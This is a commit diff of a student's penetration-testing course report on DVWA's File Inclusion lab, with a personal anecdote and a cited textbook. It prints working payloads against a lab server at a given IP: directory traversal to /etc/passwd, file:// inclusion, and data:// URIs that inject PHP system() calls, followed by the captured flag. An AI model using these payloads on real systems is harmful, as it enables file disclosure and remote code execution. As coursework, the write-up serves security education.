

Before and after one commit to sourander/KYBS2001-penetration-testing, a Typst document (report/assignment_04.typ): part of the page before the commit and two parts of pages 1 and 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with Typst 0.15.

Commit message:
Assignment 4 done

````diff
--- a/report/assignment_04.typ
+++ b/report/assignment_04.typ
@@ -2,10 +2,64 @@
 
 == Overview and Definitions
 
-This section will document the DVWA file inclusion assignment, including the affected functionality, inclusion technique, security consequences, and remediation guidance.
+This assignment is about DVWA File Inclusion, which is about exploiting poor input validation of the file inclusion. I actually have personal experience with this vulnerability. When I was a teenager, in about year 2000, I had a website hosted on my personal domain, running on a rented shell account. The website was a simple PHP page that used navigation where URI parameters, like `?page=home` were used to include different content to the page, making it seemingly dynamic. I think the page was made of HTTP table back then, and iframe's were used to include the content. The attacker managed to convert the website into a proxy for some video streaming or sharing. Admins noticed this and locked my account until I fixed the vulnerability.
+
+The key source I used for this assignment was a book _Kali Linux 2018: Assuring Security by Penetration Testing - Fourth Edition_ by Shiva Parasram et. al. (Packt Publishing, 2018). The Chapter _"Web Application Testing"_ has a section _"Directory-traversal and file-inclusion"_.
 
 == Target Setup and Relevant Code
 
+The website is currently at:
+
+```
+/var/www/html/dvwa/vulnerability/fi/
+```
+
+This means that we can access other files using relative paths, like:
+
+```
+../../../../../../etc/passwd
+```
+
+The PHP code that handles the file inclusion is as follows:
+
+```php
+<?php
+$file = $_GET[ 'page' ];
+?>
+```
+
 == Observations
 
+We simply place them to the URI like `...?page=<filepath>`. The assignment states that: _"The random flag (answer) you need to discover using File Inclusion vulnerability, is hidden inside a PHP file that has a random name and is located inside hackable/flags directory."_. Thus, based on what I've learned in the previous exercise, the file is likely to be something like `hackable/flags/flag_18021.php`.
+
+```
+../../../../../../app/hackable/flags/flag_18021.php
+```
+
+However, it is trickier to find a file that I do not know. I could simply loop over all numbers from 0 to 99999, but that would be inefficient. I found a Medium post, #link("https://chanuka1.medium.com/dvwa-file-inclusion-vulnerability-low-medium-high-security-levels-7e46e1ae8375")[DVWA: File Inclusion Vulnerability — Low, Medium & High Security Levels], where this kind of pattern is also suggested to work:
+
+```
+http://193.167.189.112:2788/vulnerabilities/fi/?page=file:///etc/passwd
+```
+
+It does, but it does not solve my problem of finding the file. However, it did lead my to another idea. Instead of file URI scheme, there actually exists a #link("https://en.wikipedia.org/wiki/Data_URI_scheme")[data URI scheme], which allows me to inject code into the URI. Thus, I can use the following URI to run a command:
+
+```
+http://193.167.189.112:2788/vulnerabilities/fi/?page=data://text/plain,<?php system('ls'); ?>
+```
+
 == Assignment Solution
+
+Now had I the missing pieces to the puzzle. I used the following prompts to the Firefox's address bar to find the file:
+
+```
+...?page=data://text/plain,<?php system('ls /app/hackable/flags'); ?>
+...?page=file:///app/hackable/flags/45495.php
+```
+And now, I could see the `Your flag: <flag>` text on top of the page. For reference, the full flag value is:
+
+```
+ed79ad1f545283a020c388be6ca1565024cb61adfe126f1143ee971589b3e941
+```
+
+I rate this vulnerability as *CRITICAL*, since it allows an attacker to run arbitrary code on the server.
````
